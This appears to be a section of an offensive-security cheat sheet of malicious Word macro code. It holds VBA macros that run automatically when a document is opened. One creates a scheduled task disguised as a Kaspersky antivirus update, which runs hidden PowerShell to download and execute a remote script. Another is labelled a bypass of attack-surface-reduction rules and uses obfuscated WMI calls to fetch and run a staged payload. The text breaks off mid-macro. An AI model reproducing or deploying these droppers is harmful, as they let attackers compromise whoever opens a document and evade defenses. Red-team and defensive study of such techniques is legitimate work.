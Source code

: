 
## DOCM - VBA Spawning via svchost.exe using Scheduled Task

```ps1
Sub AutoOpen()
    Set service = CreateObject("Schedule.Service")
    Call service.Connect
    Dim td: Set td = service.NewTask(0)
    td.RegistrationInfo.Author = "Kaspersky Corporation"
    td.settings.StartWhenAvailable = True
    td.settings.Hidden = False
    Dim triggers: Set triggers = td.triggers
    Dim trigger: Set trigger = triggers.Create(1)
    Dim startTime: ts = DateAdd("s", 30, Now)
    startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
    trigger.StartBoundary = startTime
    trigger.ID = "TimeTriggerId"
    Dim Action: Set Action = td.Actions.Create(0)
    Action.Path = "C:\Windows\System32\powershell.exe"
    Action.Arguments = "-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
    Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
End Sub
Rem powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
```

## DOCM - WMI COM functions

```ps1
Sub wmi_exec()
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
    Set objStartUp = objWMIService.Get("Win32_ProcessStartup")
    Set objProc = objWMIService.Get("Win32_Process")
    Set procStartConfig = objStartUp.SpawnInstance_
    procStartConfig.ShowWindow = 1
    objProc.Create "powershell.exe", Null, procStartConfig, intProcessID
End Sub
```

* https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3
* https://labs.inquest.net/dfi/sha256/f4266788d4d1bec6aac502ddab4f7088a9840c84007efd90c5be7ecaec0ed0c2

```ps1
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'http://10.10.10.10/stage.ps1')", Null, objConfig, intProcessID
End Sub

Sub AutoExec()
    ASR_bypass_create_child_process_rule5
End Sub

Sub AutoOpen()
```